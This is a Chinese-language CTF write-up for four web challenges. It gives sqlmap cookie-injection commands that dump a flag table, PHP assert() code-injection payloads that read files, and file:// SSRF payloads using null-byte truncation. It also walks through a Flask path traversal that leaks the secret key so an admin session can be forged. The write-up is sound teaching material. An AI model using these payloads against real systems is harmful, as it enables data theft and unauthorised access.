



# web_wp

## BBSQLI

### 0x00

此题有两种做法（请教了营里两个大佬）,sqlmap的cookie注入或者盲注

以下是sqlmap的方法，找了一份sqlmap使用教程

[sqlmap使用教程](https://www.cnblogs.com/ichunqiu/p/5805108.html)

### 0x01

第一步，cookie注入猜解表

```
python sqlmap.py -u "http://202.112.51.184:16080/" --cookie "PHPSESSID=a5755aea3f46c4a45892bd5eee3e4fe9" --table --level 2
```

注：如有选择Y or n,一路n即可

发现一个带有flag字样的表


第二步，根据表猜解字段

```
python sqlmap.py -u "http://202.112.51.184:16080/" --cookie "PHPSESSID=a5755aea3f46c4a45892bd5eee3e4fe9" --columns -T [GDJM_flag] --level 2
```



ok,flag基本在这了

第三步，猜解字段内容

```
python sqlmap.py -u "http://202.112.51.184:16080/" --cookie "PHPSESSID=a5755aea3f46c4a45892bd5eee3e4fe9" --dump -T [GDJM_flag] -C "flag" --level 2
```


## makeit

源码泄露的利用，这里有一个自动检查源码泄露的插件

[SensInfo Finder](https://github.com/sqvds/sensinfor)

之后用githack将源码down下来

```PHP
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```

这段php代码是有问题的，构造payload

```
http://202.112.51.184:15080/?page=' and die(file_get_contents('templates/flag.php')) or '
```

完成之后语句如下

```PHP
assert("strpos('' and die(file_get_contents('templates/flag.php')) or '', '..') === false") or die("Detected hacking attempt!");
```

读出flag.php的源码


其他payload

```
http://202.112.51.184:15080/?page=' and die(show_source('templates/flag.php')) or '
```


## simple ssrf

此题就是简单的考察一下file协议

payload

```
file://www.baidu.com/etc/flag.txt%00
```

```
file://www.baidu.com/etc/flag.txt#
```

经过测试，因为最后有个/，所以payload最后要有截断符

当输入框为

```
https://www.baidu.com/
```

执行后



hint提示flag在etc/flag.txt,由于限制前面只能是www.baidu.com,也无所谓了，file是本地文件协议前面写啥都是读取本地文件



## sshop

此wp作者为同营小伙伴

- 推荐使用pycharm进行代码审计   

------

下载源码后，本地打开，全局搜索“flag”，发现就是这么真实：

```python
# 用户信息
@users.route('/')
def user():
    if not login_status_check():
        return redirect(url_for('users.login'))
    flag = open('./flag').read() if is_admin() else False
    username = session.get('username')
    user = User.query.filter_by(username=session.get('username')).first()
    return render_template('user.html', user=user, flag=flag, current_user=1)
```

直接访问根目录，如果满足is_admin()条件，那么就从flag文件中读出flag并输出。查看is_admin()函数的定义：

```python
def is_admin():
    if login_status_check():
        return session['admin']
    else:
        return False
```

检查session中的admin参数，也就是这里只要session['admin']中有个值，不是false就行。全局搜索session['admin']，发现另外用到session['admin']的地方就只有下面这一个：

```python
@users.route('/login', methods=['POST', 'GET'])
def login():
    Login_error = False
    if request.method  == 'POST':
       
        user = User.query.filter_by(username=request.form.get('username')).first()
        if not user or user.password != request.form.get('password'):
            Login_error = u'用户名或密码错误'
            return render_template("login.html", Login_error=Login_error)
        else:
            session['id'] = user.id
            session['username'] = user.username
            session['admin'] = False
            return redirect(url_for('users.user'))
    return render_template("login.html")
```

对，就只有这么个破地方用到了。然后想了一个多小时如何篡改session['admin']中的值。。祭出Google，发现flask中的session是存在本地的，而且如果我自己要生成一个session，我唯一需要的就是一个secret_key，所以我们要做的就是想办法拿到那个secret_key。从头到尾又看一遍代码，发现了生成secret_key的地方：

```python
# config.py
with open('.secret_key', 'a+b') as secret:
    secret.seek(0)
    key = secret.read()
    if not key:
        key = randstr(32)
        secret.write(key)
        secret.flush()
```

发现它会把secret_key写入到一个静态文件中。这就很微妙了，为啥要写入一个到一个文件中。。直接生成一个不就好了？同时，又有另外一个微妙的函数：

```python
@users.route('/asserts/<path:path>')
def static_handler(path):
    filename = os.path.join(app.root_path,'asserts',path)
    if os.path.isfile(filename):
        return send_file(filename)
    else:
        abort(404)
```

于是，我们只要构造/asserts/../../.secret_key，就能拿到了secret_key了，这里有个坑，必须用burp抓包，在包里面改路径，或者是用burp的Repeater。或许你会突然想到，都这样了，还拿啥.secret_key，直接拿flag不就好了？对，我也是这么想的，卡了好一会儿后，发现：

```python
    @app.before_request
    def waf():
        if 'flag' in request.url:
            abort(403)
```

好吧，老老实实一步一步来。基本思路，在本地伪造好session后，抓包修改，get flag。其实，这里不用本地把环境复现一遍，只需要写几行代码构造一下。啊，然而我并不知道flask存session的格式是啥，一心想要flag的我懒得研究了。

- 改login()函数中的session['admin']
- 改config.py中的secret的值
- 似乎某几个地方还有bug，改一改就行
- 本地没flag文件似乎要报错，随便写一个进去就好
- 缺啥库python -m pip install 装啥库
- 收工~